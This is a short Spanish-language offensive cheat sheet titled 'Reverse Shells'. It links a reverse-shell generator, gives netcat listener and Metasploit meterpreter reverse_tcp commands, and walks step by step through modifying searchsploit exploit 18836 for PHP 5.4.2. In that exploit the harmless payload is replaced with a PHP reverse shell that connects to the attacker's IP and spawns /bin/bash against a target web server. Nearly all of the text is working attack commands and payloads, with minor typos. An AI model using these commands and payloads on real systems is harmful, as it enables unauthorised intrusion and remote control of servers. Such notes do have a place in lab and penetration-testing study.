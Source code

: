 # Reverse Shells

Propietario: Adrian Gisbert Cabello

- Página para generar reverse shells: [https://www.revshells.com/](https://www.revshells.com/)

- Para ponernos en escucha a través de ***netcat*** esperando una `reverse_shell: nc -lvnp <port>` ******(en port, ponemos el número del puerto) → `nc -lvnp 1234`
    
    A una máquina windows con metasploit: `set payload windows/meterpreter/reverse_tcp <puerto>` → `set payload windows/meterpreter/reverse_tcp 8821`
    

- A través de una subida de archivo php malicioso: `searchsploit php 5.4.2` → buscamos el 18836 y lo guardamos en nuestro directorio `seatchsploit -m 18836` → abrimos el [archivo.py](http://archivo.py) y donde pone 	`pwn_code = “”"<?php phpinfo();?>"""` lo cambiamos por `pwn_code = “”"<?php $sock=fsockopen("192.168.X.X","3333"):exec("/bin/bash -i <&4 >&4 2>&4");?>"""` la ip es la de nuestra máquina atacante → nos ponemos en escucha en netcat a través del puerto 3333 `nc -lvnp 3333` → ejecutamos el archivo.py `python2 18836.py 192.168.X.X 80` ******La ip es la del equipo al cual queremos atacar y el puerto 80 del servidor http. Si no funciona con python2, probamos con python o python3